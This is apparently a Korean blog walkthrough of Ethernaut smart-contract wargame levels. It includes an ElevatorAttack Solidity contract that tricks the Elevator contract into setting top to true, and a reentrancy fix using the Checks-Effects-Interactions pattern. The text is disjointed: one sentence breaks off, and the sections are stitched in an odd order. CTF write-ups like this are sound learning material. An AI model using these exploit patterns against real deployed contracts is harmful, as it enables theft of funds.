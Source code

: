문제 해설에 들어가기 전,  이번 포스팅은 이더넛 내에서 콘솔창과 상호작용을 할 줄 알고 기본적인 리믹스 및 메타마스크 사용법이 숙지되어 있다는 가정 하에 해설을 진행합니다.



## Elevator Problem

이번 문제의 힌트를 보아도 잘 감이 오지 않는다.

 - 때때로 솔리디티는 약속을 잘 지키지 않는다.
 - 이 엘리베이터가 빌딩에서 사용되길 기대한다.



나는 이 elevator 문제를 한참동안 들여다 봐도 무엇이 잘못 되었는지, 찾지 못햇다. 우선 문제 주소를 remix에 넣고 컨트랙트 주소를 불러오자! 이때, 인터페이스는 배포가 불가능하니 꼭 셀렉트를 Elevator로 바꾸고 At Address를 진행하자. 처음에 문제로 출제된 Elevator 주소를 불러와 top함수를 호출하면 불값이 false로 되어 있다. 

![](C:\Users\hwave\Documents\GitHub\TIL-about-Blockchain\img\elevator01.png)

문제에서, 이 엘리베이터는 *"너의 빌딩에 꼭대기에 도달할수 없는게 맞지?"* 라고 하는 것을 보아 top을 true 값으로 바꾸면 문제를 통과 할 수 있다.





### ElevatorAttack.sol 

```javascript
pragma solidity ^0.4.18;

contract ElevatorAttack {
  bool public isLast = true;
  
  function isLastFloor(uint) public returns (bool) {
    isLast = ! isLast;
    return isLast;
  }

  function attack(address _victim) public {
    Elevator elevator = Elevator(_victim);
    elevator.goTo(10);
  }
}
```

view 키워드가 있는 인터페이스와 



이후 이더넛의 콘솔창에서 await contract.top()를 치면 true 값으로 바뀐 것을 확인 할 수 있고, 다음 문제로 넘어갈 수 있다.





---



 [1.3이더 가져오기](https://ropsten.etherscan.io/tx/0x3a335a244b29a19612f6302ce9d5b22e6f4a217352e41cf79ed7e6e7766cb348) 

![](C:\Users\hwave\Documents\GitHub\TIL-about-Blockchain\img\reentrance03.png)



그렇다면, 우리는 위와 같은 재진입성 문제를 막기 위해서는 어떻게 코딩을 해야 할까? 

송금과 관련하여 안전한 코딩을 위해서는 `Condition - Effects - Interation` 패턴을 지닌 `pull형 payable`을 사용해야한다. 



### Condition - Effects - Interation

> - Condition
>
>   함수를 실행하는 조건을 확인하고 조건이 유효하지 않을 때는 처리를 중단
>
> - Effects
>
>   상태를 업데이트 (ex : 경매일 경우, 반환 금액 여기 손봐야함 적절한 예시로)
>
> - Interaction
>
>   다른 컨트랙트에 메시지를 보낸다 (ex : 입찰금)



CEI패턴을 지키기 위해서는 처음에 주어지 코드를 아래와 같이 수정하면 된다.

```javascript
  function withdraw(uint _amount) public {
    if(balances[msg.sender] >= _amount) {
      
      balances[msg.sender] -= _amount;
      
      if(msg.sender.call.value(_amount)()) {
        _amount;
      }
    }
  }
```

직접 리믹스 자바스크립트 VM환경에서 수정된 코드를 배포하여 실험을 해보면 확실하게 알 수 있다.



그럼, 다음번에는 11단계 Elevator에서 만나요!